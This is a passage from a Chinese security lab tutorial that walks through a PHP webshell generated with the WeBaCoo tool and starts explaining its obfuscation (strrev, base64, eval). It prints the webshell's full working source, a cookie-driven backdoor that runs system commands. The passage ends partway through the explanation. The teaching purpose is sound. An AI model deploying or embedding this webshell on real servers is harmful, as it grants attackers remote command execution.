 ![图片描述](../imgs/1481013914062.png-wm.png)

使用 `ls` 命令查看当前目录下的文件，确认是否已经生成了木马文件：

![图片描述](../imgs/1481013974754.png-wm.png)

### 4.2  PHP 木马源码原理解析

作为一名信息安全人士，满足于工具的使用是远远不够的。对于对木马的形成原理，以及木马中的代码如何运行，需要有一定的了解。其中使用 WeBaCoo 工具的 `-r` 参数，生成的木马文件源码更加复杂。这里为了方便解释其最核心的代码原理，文档中没有使用 `-r` 参数，这样生成了木马文件更加方便理解。接下来使用 `cat` 命令，对生成的 PHP 木马代码源码进行查看：

```
# 输入 cat 命令，查看生成的木马代码源码
cat hello.php
```
生成的木马文件，其代码如下所示，其中的核心部分为：

```
<?php 

$b=strrev("edoced_4"."6esab");

eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = ")));

?>
```
> Base64 编码是一种 “防君子不防小人” 的编码方式。广泛应用于 MIME 协议，作为电子邮件的传输编码，生成的编码可逆，后一两位可能有“=”，生成的编码都是 ascii 字符。

其中第一行代码的 `strrev()` 函数的作用是将字符串反转，并将反转后的字符串变量赋值给 `$b`，即：
